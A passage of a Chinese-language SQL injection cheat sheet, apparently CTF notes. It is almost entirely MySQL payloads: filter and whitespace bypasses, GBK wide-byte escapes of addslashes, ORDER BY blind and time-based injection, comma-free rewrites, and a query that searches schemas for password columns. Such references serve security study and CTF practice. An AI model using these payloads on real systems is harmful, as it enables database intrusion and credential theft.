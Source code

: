 
- 繞過空白檢查
    - `id=-1/**/UNION/**/SELECT/**/1,2,3`
    - `id=-1%09UNION%0DSELECT%0A1,2,3`
    - `id=(-1)UNION(SELECT(1),2,3)`

- 寬字節注入
    - `addslashes()`會讓`'`變`\'`
    - 在`GBK`編碼中，中文字用兩個Bytes表示
        - 其他多字節編碼也可
        - 但要低位範圍有包含`0x5c`(`\`)
    - 第一個Byte要>128才是中文
    - `%df'` => `%df\'` => `運'` (成功逃逸)

- Order by注入
    - 可以透過`asc`、`desc`簡單判斷
        - `?sort=1 asc`
        - `?sort=1 desc`
    - 後面不能接UNION
    - 已知字段名 (可以盲注)
        - `?order=IF(1=1, username, password)`
    - 利用報錯
        - `?order=IF(1=1,1,(select 1 union select 2))` 正確
        - `?order=IF(1=2,1,(select 1 union select 2))` 錯誤
        - `?order=IF(1=1,1,(select 1 from information_schema.tables))` 正常
        - `?order=IF(1=2,1,(select 1 from information_schema.tables))` 錯誤
    - Time Based
        - `?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` 正常
        - `?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` sleep 2秒

- group by with rollup
    - `' or 1=1 group by pwd with rollup limit 1 offset 2#`

- 將字串轉成純數字
    - 字串 -> 16進位 -> 10進位
    - `conv(hex(YOUR_DATA), 16, 10)`
    - 還原：`unhex(conv(DEC_DATA,10,16))`
    - 需注意不要Overflow

- 不使用逗號
    - `LIMIT N, M` => `LIMIT M OFFSET N`
    - `mid(user(), 1, 1)` => `mid(user() from 1 for 1)`
    - `UNION SELECT 1,2,3` => `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)`

- 快速查找帶關鍵字的表
    - `select table_schema,table_name,column_name from information_schema.columns where table_schema !=0x696E666F726D6174696F6E5F736368656D61 and table_schema !=0x6D7973716C and table_schema !=0x706572666F726D616E63655F736368656D61 and (column_name like '%pass%' or column_name like '%pwd%');
    `

- innodb
    - 表引擎為innodb
    - MySQL > 5.5
    - innodb_table_stats、innodb_table_index存放所有庫名表名
    - `select table_name from mysql.innodb_table_stats where database_name=資料庫名;`
    - Example: [Codegate2018 prequal - simpleCMS](https://github.com/w181496/CTF/tree/master/codegate2018-prequal/simpleCMS)
